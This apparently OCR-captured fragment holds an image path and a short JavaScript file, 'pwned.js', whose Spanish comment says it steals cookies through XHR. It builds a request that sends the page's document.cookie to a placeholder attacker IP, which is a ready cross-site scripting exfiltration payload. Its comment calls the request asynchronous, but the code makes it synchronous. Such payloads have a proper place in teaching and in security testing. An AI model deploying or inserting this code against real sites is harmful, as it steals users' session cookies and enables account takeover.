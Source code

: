 // pwned.js - exfiltra cookies mediante XHR (asíncrono)
var req = new XMLHttpRequest();
req.open('GET', "http://<IP_Atacante>/?cookie="+document.cookie, false);
req.send();